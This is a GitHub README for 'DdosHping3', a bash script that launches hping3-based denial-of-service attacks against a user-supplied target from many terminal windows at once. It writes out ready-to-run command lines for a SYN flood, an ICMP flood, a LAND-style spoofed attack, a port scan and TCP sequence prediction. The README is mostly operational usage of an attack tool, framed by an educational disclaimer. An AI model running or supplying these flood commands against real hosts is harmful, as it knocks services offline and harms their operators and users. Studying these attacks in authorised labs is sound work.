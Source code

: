 # DdosHping3

Welcome to the **DdosHping3** repository! This project provides a bash script that allows users to simulate various network attack scenarios using `hping3`. The script offers a user-friendly interface for selecting attack types, targeting specific IPs, and managing multiple terminal instances for concurrent execution.

## Table of Contents

- [Introduction](#introduction)
- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Available Attacks](#available-attacks)
- [Script Details](#script-details)
- [Disclaimer](#disclaimer)
- [Contributing](#contributing)
- [License](#license)

## Introduction

This repository serves as a tool for educational purposes, particularly in understanding network security, penetration testing, and the implications of various types of Denial-of-Service (DoS) attacks. By using this script, users can experiment in a controlled environment to learn how these attacks work and how to defend against them.

## Prerequisites

Before using the script, ensure you have the following installed on your system:

- **hping3**: This tool is essential for crafting and sending custom TCP/IP packets. The script will attempt to install it if it's not already present.
- **Terminal Emulator**: The script supports either `xterm` or `gnome-terminal`. Ensure one of these is installed.
- **wmctrl** (optional): This tool can be used for automatically arranging terminal windows, though it's not mandatory.

## Installation

To set up the necessary components, follow these steps:

1. **Clone the repository:**
   ```bash
   git clone https://github.com/hacksudo/DdosHping3.git
   cd DdosHping3

    Make the script executable:

    bash

chmod +x DdosHping3.sh

Install hping3 (if not installed):

bash

sudo apt-get install -y hping3

Install wmctrl (optional):

bash

    sudo apt-get install -y wmctrl

Usage

To run the script, execute the following command:

bash

./DdosHping3.sh

You will be prompted to enter:

    Target IP or hostname: Specify the target you wish to attack.
    Attack type: Choose from the available options.
    Number of terminal instances: Indicate how many terminals you want to open for the attack.

The script will then initiate the chosen attack across the specified number of terminal windows.
Available Attacks

The script currently supports the following attack types:

    Port Scanning: Scans for open ports in the range 21-500.
        Command: hping3 -S --scan 21-500 <target>
    SYN Flood Attack: Floods the target with SYN packets to overwhelm the server.
        Command: hping3 -S -p 80 <target> --flood
    LAND Attack: Sends packets with the target IP as both the source and destination.
        Command: hping3 -S -p 80 <target> -a 127.0.0.1
    SMURF Attack: Uses ICMP echo requests to flood the target.
        Command: hping3 --icmp --flood <target> -a 127.0.0.1
    TCP Sequence Prediction Attack (ISN Prediction): Attempts to predict the initial sequence number of TCP connections.
        Command: hping3 -S -p 80 -Q 127.0.0.1

Script Details

The script is designed to check for the necessary tools, prompt the user for inputs, and launch multiple terminal windows running the selected attack. It also includes checks for terminal emulator availability and attempts to arrange the windows for better visibility.
Disclaimer

This script is intended for educational and research purposes only. Do not use this script against any system without explicit permission. Unauthorized access to computer systems is illegal and unethical. Always use responsibly and ethically.
Contributing

Contributions are welcome! If you have suggestions for improvements or new features, please create a pull request or open an issue.
License

This project is licensed under the MIT License. See the LICENSE file for details.
@Made by Vishal Waghmare 
instagram@realvilu
